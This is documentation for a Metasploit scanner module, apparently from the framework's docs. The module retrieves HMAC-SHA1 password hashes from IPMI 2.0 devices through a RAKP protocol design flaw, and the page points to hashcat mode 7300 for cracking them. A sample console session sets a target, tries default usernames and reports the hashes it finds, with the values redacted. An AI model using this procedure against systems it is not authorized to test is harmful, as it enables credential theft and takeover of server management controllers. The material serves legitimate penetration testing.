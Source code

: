 The ipmi_dumphashes module identifies IPMI 2.0-compatible systems and attempts to retrieve the HMAC-SHA1 password hashes of default usernames. The hashes can be stored in a file using the OUTPUT_FILE option and then cracked using hmac_sha1_crack.rb in the tools subdirectory as well hashcat (cpu) 0.46 or newer using type 7300.

## Vulnerable Devices

Any IPMI 2.0 device implementing the RAKP protocol according to the IPMI specification is vulnerable. This is a design flaw rather than a vendor-specific vulnerability.

## Verification Steps

Set RHOSTS to the target device or range and run:

```
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf auxiliary(ipmi_dumphashes) > set RHOSTS 192.168.1.2
RHOSTS => 192.168.1.2
msf auxiliary(ipmi_dumphashes) > run

[*] 192.168.1.2:623 - IPMI - Sending IPMI probes
[*] 192.168.1.2:623 - IPMI - Trying username 'ADMIN'...
[-] 192.168.1.2:623 - IPMI - Returned error code 13 for username ADMIN: Unauthorized name
[*] 192.168.1.2:623 - IPMI - Trying username 'admin'...
[-] 192.168.1.2:623 - IPMI - Returned error code 13 for username admin: Unauthorized name
[*] 192.168.1.2:623 - IPMI - Trying username 'root'...
[+] 192.168.1.2:623 - IPMI - Hash found: root:redacted
[*] 192.168.1.2:623 - IPMI - Trying username 'Administrator'...
[-] 192.168.1.2:623 - IPMI - Returned error code 13 for username Administrator: Unauthorized name
[*] 192.168.1.2:623 - IPMI - Trying username 'USERID'...
[-] 192.168.1.2:623 - IPMI - Returned error code 13 for username USERID: Unauthorized name
[*] 192.168.1.2:623 - IPMI - Trying username 'guest'...
[-] 192.168.1.2:623 - IPMI - Returned error code 13 for username guest: Unauthorized name
[*] 192.168.1.2:623 - IPMI - Trying username ''...
[+] 192.168.1.2:623 - IPMI - Hash found: redacted
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
